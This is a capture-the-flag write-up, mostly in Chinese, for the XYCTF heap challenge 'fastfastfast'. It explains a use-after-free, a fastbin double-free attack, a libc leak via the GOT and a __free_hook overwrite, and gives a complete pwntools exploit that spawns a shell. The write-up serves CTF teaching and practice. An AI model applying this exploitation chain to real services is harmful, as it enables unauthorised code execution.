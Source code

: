 # [XYCTF] fastfastfast

`UAF`|`fast_bin_attack`|`tcache`|`leak_libc`

```shell
[*] '/home/bamuwe/fastfastfast/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fd000)
```

> $ checksec ./vuln

```shell
1. create note
2. delete note
3. show content
>>>
```

> $ ./vuln

```c
void __cdecl delete()
{
  unsigned int idx; // [rsp+Ch] [rbp-14h] BYREF
  unsigned __int64 v1; // [rsp+18h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts("please input note idx");
  __isoc99_scanf("%u", &idx);
  if ( idx <= 0xF )
    free(note_addr[idx]);
  else
    puts("idx error");
}
```

> delete()漏洞函数,没有清除指针

```python
def add(idx,content):
    io.sendlineafter(b'>>>',b'1')
    io.sendlineafter(b'idx\n',str(idx))
    io.sendlineafter(b'content\n',content)
    
def free(idx):
    io.sendlineafter(b'>>>',b'2')
    io.sendlineafter(b'idx\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'>>>',b'3')
    io.sendlineafter(b'idx\n',str(idx))
```

> 交互函数

程序逻辑:

1. `add()`堆块大小固定`0x71`
2. `free()`后没有清空指针

利用思路:

1. 填满`tcache_bin`构造`fast_bin_attack`,将堆块放在原来有`libc_addr`的地方,泄露出`libc_addr`

   ```python
   for i in range(9):
       add(i,b'a')
   
   for i in range(7):
       free(i)
   free(7)
   free(8)
   free(7)
   ```

   ![image-20240503134919203](./../../AppData/Roaming/Typora/typora-user-images/image-20240503134919203.png)

   要利用`fastbin_attack`要先把`tcachebin`中的堆块利用

   ```python
   for i in range(7):
       add(i,b'a')
   ```

   ![image-20240503135100011](./../../AppData/Roaming/Typora/typora-user-images/image-20240503135100011.png)

   ```python
   add(7,p64(0x4040A8))
   ```

   修改`fd`为目标地址,关于这个地址后文说明

   ![image-20240503135226136](./../../AppData/Roaming/Typora/typora-user-images/image-20240503135226136.png)

   再申请三个堆块就可以得到目标`chunk`

   ```python
   add(8,b'a')
   add(9,b'b')
   add(10,p64(0)*3+p64(elf.got['free']))   #?
   show(0)
   #leak_libc
   free_addr = u64(io.recv(6).ljust(8,b'\x00'))
   lib_base = free_addr-lib.sym['free']
   free_hook_addr = lib_base+lib.sym['__free_hook']
   sys_addr = lib_base+lib.sym['system']
   success(hex(free_addr))
   success(f'free_hook_addr=>{hex(free_hook_addr)}')
   ```

   得到`libc`这里`p64(0)*3+p64(elf.got['free'])`应该是堆块结构有关

2. 修改`__free_hook`地址上的内容为`system`地址,构造`system(/bin/sh)`,得到`shell`

   ```python
   for i in range(9):
       add(i,b'/bin/sh\x00')
   for i in range(7):
       free(i)
   free(7)
   free(8)
   free(7)
   
   for i in range(7):
       add(i,b'a')
   add(7,p64(free_hook_addr))
   add(8,b'a')
   add(9,b'/bin/sh\x00')
   add(10,p64(sys_addr))
   free(9)
   ```

   利用手法同上

关于地址`0x4040A8`:

这是存贮堆块列表的地址,即变量`note_addr`的地址,覆盖其上堆块内容,再打印出来

![image-20240503140252580](./../../AppData/Roaming/Typora/typora-user-images/image-20240503140252580.png)

exp:

```python
#GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.7) stable release version 2.31.
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
context.log_level = 'debug'
io = gdb.debug('./vuln','b *0x401564')
# io = remote('gz.imxbt.cn',20788)
elf = ELF('./vuln')
lib = ELF('./libc-2.31.so')

def add(idx,content):
    io.sendlineafter(b'>>>',b'1')
    io.sendlineafter(b'idx\n',str(idx))
    io.sendlineafter(b'content\n',content)
    
def free(idx):
    io.sendlineafter(b'>>>',b'2')
    io.sendlineafter(b'idx\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'>>>',b'3')
    io.sendlineafter(b'idx\n',str(idx))
    
for i in range(9):
    add(i,b'a')

for i in range(7):
    free(i)
free(7)
free(8)
free(7)

for i in range(7):
    add(i,b'a')

add(7,p64(0x4040A8))
add(8,b'a')
add(9,b'b')
add(10,p64(0)*3+p64(elf.got['free']))   #?
show(0)
#leak_libc
free_addr = u64(io.recv(6).ljust(8,b'\x00'))
lib_base = free_addr-lib.sym['free']
free_hook_addr = lib_base+lib.sym['__free_hook']
sys_addr = lib_base+lib.sym['system']
success(hex(free_addr))
success(f'free_hook_addr=>{hex(free_hook_addr)}')

for i in range(9):
    add(i,b'/bin/sh\x00')
for i in range(7):
    free(i)
free(7)
free(8)
free(7)

for i in range(7):
    add(i,b'a')
add(7,p64(free_hook_addr))
add(8,b'a')
add(9,b'/bin/sh\x00')
add(10,p64(sys_addr))
free(9)

io.interactive()
```

